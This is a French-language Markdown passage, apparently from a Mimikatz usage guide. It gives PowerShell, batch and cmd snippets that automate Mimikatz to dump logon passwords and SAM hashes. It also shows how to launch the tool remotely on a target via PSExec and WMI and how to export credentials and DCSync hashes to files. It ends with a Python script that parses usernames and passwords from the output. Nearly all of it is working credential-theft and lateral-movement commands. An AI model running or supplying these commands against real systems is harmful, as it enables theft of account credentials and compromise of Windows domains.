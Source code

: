 ## 🔄 Automatisation et Scripts

### Script PowerShell
```powershell
# Script automatisé Mimikatz
$commands = @(
    "privilege::debug",
    "sekurlsa::logonpasswords",
    "lsadump::sam",
    "exit"
)

foreach ($cmd in $commands) {
    .\mimikatz.exe $cmd
}
```

### Batch automation
```batch
@echo off
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "lsadump::sam" "exit" > output.txt
```

### Remote execution
```cmd
# Via PSExec
psexec.exe \\target -s -c mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Via WMI
wmic /node:target process call create "mimikatz.exe privilege::debug sekurlsa::logonpasswords exit"
```

## 📊 Analyse des Résultats

### Format de sortie
```cmd
# Export en fichier
sekurlsa::logonpasswords full > credentials.txt

# Format CSV pour parsing
lsadump::dcsync /domain:company.com /user:admin /csv > hashes.csv
```

### Parsing credentials
```python
# Script Python pour parser sortie Mimikatz
import re

def parse_mimikatz_output(file_path):
    with open(file_path, 'r') as f:
        content = f.read()
    
    # Regex pour extraire credentials
    pattern = r'Username\s*:\s*(.+)\n.*?Password\s*:\s*(.+)\n'
    matches = re.findall(pattern, content, re.DOTALL)
    
    return matches
```
